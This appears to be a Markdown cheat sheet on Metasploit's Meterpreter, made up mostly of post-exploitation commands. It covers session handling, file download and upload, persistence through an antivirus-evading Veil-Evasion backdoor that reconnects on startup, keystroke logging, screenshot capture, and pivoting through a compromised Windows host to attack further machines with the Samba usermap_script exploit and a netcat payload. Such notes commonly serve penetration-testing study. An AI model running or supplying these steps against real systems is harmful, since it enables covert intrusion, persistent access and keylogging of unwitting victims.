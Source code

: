 # Meterpreter

Meterpreter is a tool inside Metasploit framework that we can use for exploits execution and target connections.

```
use exploit/multi/handler
show options
exploit
```

## Basics

Once we have access to a target machine, we can lots of useful commands.

```
background // set current session in the background
sessions -l // list all active sessions
sessions -i <ID> // access session by id
sessions -K // kill all sessions
sysinfo
ipconfig
ps
migrate <PROCESS_ID> // migrate meterpreter process to an specific running process on target machine
```

### File System commands

```
pwd
ls
cd
cat
download
upload
execute -f
```

### Maintaining Access

#### Using Veil-Evasion

* rev_http_service / rev_tcp_service
* use it instead of a normal backdoor
* set it to execute on start

#### Persistence module

Detectable by antivirus programs.

```
run persistence -U -i 20 -p 80 -r <IP>
```

#### Metasploit + Veil-Evasion

More robust and less detectable by antivirus programs.

```
use exploit/windows/local/persistence
show options
sessions -l
set session <SESSION_ID>
show advanced
set exe::custom <BACKDOOR_LOCATION>   # instead of generating a payload exe, use a custom one set with Veil-Evasion
exploit # it doesn't matter if you are not listening, target will keep trying to connect
```

### Capturing keystrokes

You only need to run one command while listening with the _handler_.

```
meterpreter > keyscan_start
```

And to see everything that has been recorded:

```
meterpreter > keyscan_dump
```

### Capturing screenshoots

```
meterpreter > screenshoot
```

### Pivoting

Example of attacking a Metasploitable machine through a compromised Windows system

```
ifconfig # see target computers network
background

# Gain access to target device's network connected devices
use post/windows/manage/autoroute
show options
set subnet <SUBNET> # X.X.X.0, reason from windows LAN IP
set session <SESSION_ID> # remember you can look at this with `sessions -l`
exploit

# Exploit previously unreachable target
use exploit/multi/samba/usermap_script
show options
SET RHOST <TARGET_IP> # you can now reach target's network connected devices
show payloads
set PAYLOAD cmd/unix/bind-netcat
```
